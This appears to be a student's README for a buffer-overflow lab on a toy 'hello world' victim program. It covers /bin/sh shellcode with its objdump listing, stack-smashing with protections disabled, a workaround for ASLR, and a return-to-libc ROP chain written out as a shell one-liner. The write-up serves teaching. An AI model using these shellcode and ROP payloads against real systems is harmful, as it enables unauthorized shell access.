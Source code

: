 
# Overview

The aim of this project is to demonstrate a basic stack smashing attack on a simple Hello World program. Though this is simple, it's also a good overview how a buffer overflow can be used to gain shell access, and also walks us through the protections the operating system has to protect from these attacks.

For this project, I’m using a relatively newer installation of Arch. This means that I may run into trouble with, as the top of this tutorial indicates, newer versions of Linux.

> Throughout each step, there will be an indentation indicating a script or
> command that executes everything mentioned in that step.

### Some assembly required
I began by compiling and running the provided shell.c code.

> Use the provided Makefile:
```
make
```

Understanding the assembly code: it seems to load the string bin/sh into somewhere in memory, and then executes it by using the sys call command, which I think executes whatever is in a certain register. I also understand the idea of labeling and using the hex code 0xdeadbeef to mark where in memory it is.

At first, I did not think that it was working at all. I began to do the rest and was running into trouble. Then I discovered that it was running the whole time and I’d been trying to do the rest of the commands from within the execvp shell! (It seemed to be missing some environment variables).

(Note: On Arch, when I run objdump, the output is different from what the tutorial indicates it should be. Instead of one line with ``` 4004d6:       69 6e 2f 73 68 00 ef    imul ```, my output is spread into multiple lines, which I guess must be some kind of breaking down of the operation. When I run “cat shell code” it is the same, however. Upon switching to Ubuntu it is the same.)

The entire program dumps to:
```
00000000004004aa <needle0>:
  4004aa:	eb 0e                	jmp    4004ba <there>

00000000004004ac <here>:
  4004ac:	5f                   	pop    %rdi
  4004ad:	48 31 c0             	xor    %rax,%rax
  4004b0:	b0 3b                	mov    $0x3b,%al
  4004b2:	48 31 f6             	xor    %rsi,%rsi
  4004b5:	48 31 d2             	xor    %rdx,%rdx
  4004b8:	0f 05                	syscall 

00000000004004ba <there>:
  4004ba:	e8 ed ff ff ff       	callq  4004ac <here>
  4004bf:	2f                   	(bad)  
  4004c0:	62                   	(bad)  
  4004c1:	69                   	.byte 0x69
  4004c2:	6e                   	outsb  %ds:(%rsi),(%dx)
  4004c3:	2f                   	(bad)  
  4004c4:	73 68                	jae    40052e <__libc_csu_init+0x4e>
	...
```

> The necessary shellcode file can be produced by running:
```
./theshellgame.sh
```

### Learn Bad C in only 1 hour!
The victim.c code seems fairly simple. All it does is take in a char array and print it. Of course, if we overflow the array, fun can happen…
Also: It is impressive how extensive the protections that the OS puts in are these days. I can see how all the things we are disabling would make our ROP attack impossible: if we can’t find or execute our code, our attack is worthless. Successful exploits on a live machine must be very complicated.

Here is a simple diagram of how our code is trying to work. We're attempting to turn:
```
 _______________
|name array     |<- &name
|(64 bytes)     |
|               |
|_______________|
|RBP (8 bytes)  |
|ReturnAddr     |
```
into:

```
 _______________
|shellcode      |<- &name
|(32 bytes)     |
|0 (32 bytes    |
|_______________|
|0 (8 bytes)  	|
|&name			|

```

_(Sam: I had to use “x86_64” for the architecture since my Arch install did not recognize the ‘arch’ architecture. My address was 0x7fffffffe5a0.)_

That way, when the program finishes, it goes to execute the address of shellcode, instead of the return address.

> Run the following script:
```
./learnbadc_in1hour.sh
```
Hit enter until you are greated with "Hello, �_H1��;H1�H1������/bin/sh!"
Success! you are in a shell that was executed unintentionally by the hello
world program. Run some commands. To exit the shell, run exit a couple of
times, or hit CTRL-C

### The importance of being patched:
Now we try to exploit the code with ASLR re-enabled. This means that we cannot rely on the address of ```name``` being constant. Instead, we must calculate where it is every time in order to do the same thing as we did before.

The code breaks down as follows:
First, obtain the address of the code in memory using the ps command. Then use the program to print out the location of the char array. Find out the offset to know how far you have to write the buffer to overflow it. Just as with the example, my code was 88 away from the address.

Next, the xxd script inserts the entire shell script as an input in the char array. This, followed by 40 zeros and the address of the _name_ array, once again causes the program to jump to and execute the stored therein (which launches ```/bin/sh```) This is the same kind of buffer overflow as the previous one. What this exploit offers over the first is it defeats ASLR, by dynamically finding the address of the program in memory.

Note: Upon visual inspection, it seems my version of Ubuntu organizes the stack at a different position in memory than the example code assumed. Specifically, the tutorial assumed that it would be prefixed with ```0x7fff```, and that would be the offset that the stack pointer offsets from. (That’s why it does ``0x7fff$sp+88``). I noticed that sometimes my program would be running at ```0x7ffe```, however, and that is why it was failing. If I hardcode that prefix when running the exploit, I successfully get a shell. So we require a bit of visual inspection to find which script to run. 

>This doesn't work everytime because of the prefix not always being 0x7fff
```
./theimportanceofbeingpatched.sh
```
When the prefix is 0x7fff, it works. The output is the same as when it doesn't
work, but yo can time commands and the other terminal will be running it. To
see the action, in another terminal run:
```
tmux attach -t $USER
```
lol. When you are done having fun, go back to the original terminal and exit
with CTRL-D

### Go-go-gadgets:
For the last part, we try to defeat the no-execute protection on our system. That means we can no longer just stick the code we want onto the stack to run it; stack memory becomes unexecutable. We need to get more clever than that.

What we can use is the system's own code! If we manipulate the return address of our program to run to already-loaded code, such as that from libc. Using our stack diagram:
```
 _______________
|0 (32 bytes)	|<- &name
|			|
|0 (32 bytes    |
|_______________|
|0 (8 bytes)  	|
|&addr of gadget|
|"/bin/sh"		|
|&addr of gadget|
|...			|
```
When the program returns, it does not jump to the right place. Instead, it jumps to a gadget, which is a chunk of code that performs things we want. All we want is to pop the bin/sh string onto a register, and then make a syscall such that it executes. We use libc's code for that, found the first assembly that fit, and jumped to it.

Specifically, I used the revised code linked at the top of the page. Using this, I generated code based on the linked code. The variables we had were:

```
buffer:		0x7fffffffe5a0										//Location of the char buffer 
libc: 		0x7ffff7a15000										//Location of libc on our system
system:		0x7ffff7a15000 + 0x46590 = 0x7ffff7a5b590			//Location of the system
gadgets:	0x7ffff7a15000 + 0x22b9a = 0x7ffff7a37b9a			//Location of the desired gadget
bash: 		0x7fffffffe5a0 + 64d + 8d + 24d = 0x7fffffffe600 	//Location of our /bin/sh string
```
The code we used to use the ROP exploit was therefore:

```
(((printf %0144d 0; printf %016x 0x7ffff7a37b9a | tac -rs..; printf %016x 0x7fffffffe600 | tac -rs..; printf %016x 0x7ffff7a5b590 | tac -rs.. ; echo -n /bin/sh | xxd -p) | xxd -r -p) ; cat) | ./victim
```

Which loads the right addresses onto the stack! This allows the program to return to the gadget instead of the OS, which executes our program!

> Run the following command:
```
./gogadgetgo.sh
```
When you are asked for your name, just press enter. You'll be greated by the
hello world program, but it returns to sh, which is waiting for your command.
When you are done, CTRL-D out of there
